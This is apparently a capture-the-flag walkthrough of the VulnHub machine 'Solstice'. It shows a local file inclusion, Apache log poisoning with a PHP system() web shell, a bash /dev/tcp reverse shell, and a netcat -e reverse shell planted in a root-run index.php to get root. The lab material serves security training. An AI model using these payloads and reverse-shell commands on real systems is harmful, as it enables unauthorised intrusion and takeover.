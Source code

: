 ```yaml
---
description: VulnHub box - Intermediate level
---
```


# Solstice

## Enumeration

Let's start with nmap. We found a bunch of open ports.

After taking a look on all ports, some of them are running web servers with Apache, NGINX and python.

```
$ NMAP OUTPUT
```

We have something different on the port 8593.\
After some enumeration, we could see that index.php refer to something called "book=list"

```
curl "http://<IP>:8593/index.php?book=list"

# After checking, we have a Local File Inclusion (LFI)
curl "http://<IP>:8593/index.php?book=../../../../../../etc/passwd"
```

## Get a shell

We know that LFI is vulnerable to "Log Poisoning" like Apache's "access.log" file.\
Let's try to access to it :

```
curl "http://<IP>:8593/index.php?book=../../../../../../var/log/apache2/access.log"
```

The "access.log" file is accessible. Let's try to inject PHP code inside to get a reverse shell !

1- Access to port 80 to register an entry into log file (because port 80 is running Apache)\
2- Verify that we have another entry into the log file via the LFI\
3- Let's inject our PHP payload : \<?php system($\_GET\['cmd']);?>\
**NOTE : single quote is used to bypass the suppression of double quote from apache**

```
curl "http://<IP>/<?php system($_GET['cmd']);?>"
```

4- Now, try to access to Apache's "access.log" file, include the cmd parameter, and try to run a command like this :

```
curl "http://<IP>:8593/index.php?book=../../../../../../var/log/apache2/access.log&cmd=whoami"
```

Perfect, the command was run and we got an output "www-data".\
Let's get a reverse shell from this point !

5- Before we can send our reverse shell command, we need to URL encode it.\
We can do it with **hURL **tool :

```
hURL -U "/bin/bash -c 'bash -i > /dev/tcp/<MyIP>/4444 0>&1'"
OUTPUT : %2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%20%2Fdev%2Ftcp%2F%3CMyIP%3E%2F4444%200%3E%261%27

#Send our payload with LFI :
curl "http://<IP>:8593/index.php?book=../../../../../../var/log/apache2/access.log&cmd=%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%20%2Fdev%2Ftcp%2F%3CMyIP%3E%2F4444%200%3E%261%27
"
```

We now have a shell on the victim machine ! Let's start to escalate our privileges.

## Privilege Escalation

Once we have a shell, we will check the running process :

```
ps -aux
```

After lot of enumeration, we could see that one PHP instance is runnning with root privilege.\
This PHP instance is running on http://localhost:57 and pointing to /var/tmp/sv. An index.php file is available and writable from www-data user.\
We could use it to escalate our privilege.

```
www-data@solstice:/var/tmp/sv$ echo "<?php system('nc <IP> 4443 -e /bin/bash');?>" >> index.php
# Let's run a listener on our machine before run the curl command
www-data@solstice:/var/tmp/sv$ curl http://127.0.0.1:57/
# Get it ! We have Root shell !
```

![Steps from LFI to privilege escalation](../../.gitbook/assets/2021-08-20\_19h04\_21.png)
